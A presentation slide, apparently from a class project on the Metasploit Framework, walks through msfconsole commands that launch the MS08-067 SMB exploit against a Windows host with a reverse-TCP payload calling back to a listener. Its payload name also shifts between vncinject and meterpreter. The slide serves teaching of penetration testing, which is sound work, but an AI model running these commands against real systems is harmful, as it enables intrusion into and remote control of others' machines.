

# The Metasploit Framework: Project
Msfconsole
use exploit/windows/smb/ms08_067_netapi
set PAYLOAD windows/vncinject/reverse_tcp
set RHOST [remote host] 192.168.11.51
set LHOST [local host] 192.168.11.53
show options
Module options (exploit/windows/smb/ms08_067_netapi):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.11.51    yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC
Payload options (windows/meterpreter/reverse_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, none, process
   LHOST     192.168.11.53    yes       The listen address
   LPORT     4444             yes       The listen port
Exploit